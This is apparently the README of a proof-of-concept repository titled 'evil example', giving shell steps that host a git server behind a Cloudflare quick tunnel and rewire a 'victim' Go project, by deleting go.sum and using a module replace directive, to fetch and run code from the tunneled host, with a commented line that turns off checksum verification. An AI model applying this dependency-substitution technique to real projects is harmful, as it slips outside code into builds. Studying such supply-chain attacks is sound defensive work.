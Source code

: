 # evil example

## Manual

```shell
docker compose down --remove-orphans

# up git server and the cloudflare tunnel, find the <foo>.trycloudflare.com from logs
docker compose up --build --pull always

# git clone http://127.0.0.1/foo
git clone https://<foo>.trycloudflare.com/foo

cd victim
rm go.sum
cp go.mod.tpl go.mod
go mod edit -replace 127.0.0.1/foo.git@v1.0.0=<foo>.trycloudflare.com/foo.git@v1.0.0
# GOSUMDB=off GOPROXY=direct GOINSECURE="127.0.0.1/*" go get -x -v 127.0.0.1/foo.git
go mod tidy
go run .
```

## Ref

- https://esc.sh/blog/setting-up-a-git-http-server-with-nginx/
  - https://github.com/louislef299/go-scripts/tree/f7e9fe06c5a513435473862b8bb85c3c99b180be/projects/nginx-git
